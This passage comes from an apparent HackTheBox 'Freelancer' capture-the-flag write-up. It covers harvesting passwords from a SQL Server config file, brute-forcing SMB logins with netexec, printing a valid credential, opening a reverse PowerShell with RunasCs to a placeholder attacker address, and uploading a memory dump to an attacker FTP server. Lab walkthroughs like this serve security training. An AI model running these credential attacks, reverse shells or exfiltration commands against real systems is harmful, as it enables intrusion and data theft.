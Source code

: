 In `C:\Users\sql_svc\Downloads\SQLEXPR-2019_x64_ENU\sql-Configuration.INI` we find two different passwords.

![passwords list](/images/HTB-Freelancer/passwords_list.png)

### Shell as mikasaackerman

At this point we have a list of users and passwords, we can use netexec to do some brute-forcing.

```
netexec smb 10.10.11.5 -u users.txt -p pwd.txt
```

The credentials `mikasaAckerman:IL0v3ErenY3ager` are valid.

![netexec command](/images/HTB-Freelancer/netexec_bruteforcing.png)

We download [RunasCs](https://github.com/antonioCoco/RunasCs) on the target and execute the command below.

```
.\runascs.exe mikasaAckerman "IL0v3ErenY3ager" powershell -r <YOUR_IP_ADDRESS>:<PORT_NUMBER>
```

![runascs command](/images/HTB-Freelancer/runascs_cmd.png)

On our listener we gain a shell as `mikasaackerman`.

![mickasaackerman shell](/images/HTB-Freelancer/mickasa_shell.png)

On the Desktop we find the user flag and two other files `mail.txt` and `MEMORY.7z`.

![mickasaackerman desktop](/images/HTB-Freelancer/user_flag.png)

Thanks to `mail.txt` we learn that `MEMORY.7z` contains a full memory dump which we will send to our local machine for further examination.

![mickasaackerman mail](/images/HTB-Freelancer/mail_to_mikasa.png)

On our kali machine we spin up a FTP server.

> Use `sudo apt install python3-pyftpdlib` to install the module if it's missing.

```
sudo python3 -m pyftpdlib --port 21 --write
```

![Python FTP server](/images/HTB-Freelancer/ftp_server.png)

On the target we run

```
(New-Object Net.WebClient).UploadFile('ftp://YOUR_IP/MEMORY.7z', 'C:\Users\mikasaAckerman\Desktop\MEMORY.7z')
```

![MEMORY.7z File upload](/images/HTB-Freelancer/file_upload.png)
